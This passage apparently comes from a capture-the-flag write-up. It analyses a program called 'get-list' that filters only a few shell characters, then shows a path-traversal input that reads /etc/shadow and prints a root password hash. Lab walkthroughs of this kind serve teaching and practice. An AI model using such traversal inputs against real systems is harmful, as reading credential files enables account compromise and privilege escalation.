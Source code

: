 ```
1. It prints out "Which List do you want to open? [customers/employees]: "`
2. It receives our input using fget and storing it in a buffer we can't really cause a buffer overflow cause fget is a secure function for getting inputs
3. It compares the input with ";" "|" "&" and if those strings are there the program will exist immediately
4. It then does an if statement to know when if the input is customers the programs open up /root/details/customers 

but if the input isn't customer but employees it will open up /root/details/employee
5. If those conditions are not meet it will print out "Oops something went wrong!!"
```

Now we know what it does we can exploit it to perform `file read` 

Since the code doesn't filters `.` and doesn't perform any string validation to know if another character is passed we can use it to read local files in the system 

Now lets read the /etc/shadow file of the system

But we know the code checks for if `customers/employees` is passed as an input we will need to add that either as the first input argument or last

But when we pass in `customers/employess` as the first input argument it will open up the file 

```
bob@wheels:/opt$ ./get-list                                                                                                                                                                                        
                                                                                                                                                                                                                   
                                                                                                                                                                                                                   
Which List do you want to open? [customers/employees]: customers ../../etc/shadow                                                                                                                                  
Opening File....                                                                                                                                                                                                   

Michael
Christopher
Jessica
Matthew
Ashley
Jennifer
Joshua
Amanda
Daniel
David
James
Robert
John
Joseph
root:$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:19123:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
```